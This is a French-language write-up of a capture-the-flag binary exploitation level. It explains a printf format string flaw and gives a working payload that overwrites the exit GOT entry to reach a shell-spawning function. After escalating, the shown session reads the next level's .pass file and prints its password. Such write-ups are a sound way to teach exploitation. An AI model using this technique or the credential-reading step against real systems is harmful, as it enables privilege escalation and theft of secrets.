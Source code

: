 ## Démarches

- La fonction `main` appelle une fonction `n` qui ne fait qu'un *printf* de la chaine récupérée depuis *fgets* puis un appel à *exit*
- Une fonction `o` qui fait un appel système existe mais n'est pas utilisée.
- Comme dans les levels précédents, l'appel à printf n'est pas formatté
- `(python -c 'print("AAA0"+"%08x."*4)') | ./level5` nous permet de constater que l'octet qui nous intéresse se situe au 4ème index sur la stack
  > AAA000000200.b7fd1ac0.b7ff37d0.30414141.

- On veut remplacer l'appel d'`exit` par un appel à la fonction `o`
- On récupère l'adresse d'exit avec `objdump -R level5` :
  ```
  level5:     file format elf32-i386

  DYNAMIC RELOCATION RECORDS
  OFFSET   TYPE              VALUE
  08049814 R_386_GLOB_DAT    __gmon_start__
  08049848 R_386_COPY        stdin
  08049824 R_386_JUMP_SLOT   printf
  08049828 R_386_JUMP_SLOT   _exit
  0804982c R_386_JUMP_SLOT   fgets
  08049830 R_386_JUMP_SLOT   system
  08049834 R_386_JUMP_SLOT   __gmon_start__
  08049838 R_386_JUMP_SLOT   exit
  0804983c R_386_JUMP_SLOT   __libc_start_main
  ```
- Comme dans les levels précédents, on va réécrire avec l'option %n de printf. Comme on ne souhaite réécrire que la moitié de l'adresse à l'offset 4, on utilise `%4hn` :
  
   `(python -c 'print("\x38\x98\x04\x08"+"%33952x"+"%4$hn")' ; cat -) | ./level5`
  ```
                                                                                                                                                                                                                                                                                            200
  pwd
  /home/user/level5
  whoami
  level6
  cat /home/user/level6/.pass
  d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
  ```
<br>
----
## Ressources

- https://www.exploit-db.com/papers/23985
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)


<!-- 


- `objdump -d level5`
  ```
  08048504 <main>:
    8048504:	55                   	push   %ebp
    8048505:	89 e5                	mov    %esp,%ebp
    8048507:	83 e4 f0             	and    $0xfffffff0,%esp
    804850a:	e8 b3 ff ff ff       	call   80484c2 <n>
    804850f:	c9                   	leave
    8048510:	c3                   	ret

  080484a4 <o>:
    80484a4:	55                   	push   %ebp
    80484a5:	89 e5                	mov    %esp,%ebp
    80484a7:	83 ec 18             	sub    $0x18,%esp
    80484aa:	c7 04 24 f0 85 04 08 	movl   $0x80485f0,(%esp)
    80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
    80484b6:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
    80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>

  080484c2 <n>:
    80484c2:	55                   	push   %ebp
    80484c3:	89 e5                	mov    %esp,%ebp
    80484c5:	81 ec 18 02 00 00    	sub    $0x218,%esp
    80484cb:	a1 48 98 04 08       	mov    0x8049848,%eax
    80484d0:	89 44 24 08          	mov    %eax,0x8(%esp)
    80484d4:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
    80484db:	00
    80484dc:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    80484e2:	89 04 24             	mov    %eax,(%esp)
    80484e5:	e8 b6 fe ff ff       	call   80483a0 <fgets@plt>
    80484ea:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    80484f0:	89 04 24             	mov    %eax,(%esp)
    80484f3:	e8 88 fe ff ff       	call   8048380 <printf@plt>
    80484f8:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
    80484ff:	e8 cc fe ff ff       	call   80483d0 <exit@plt>
  ``` -->
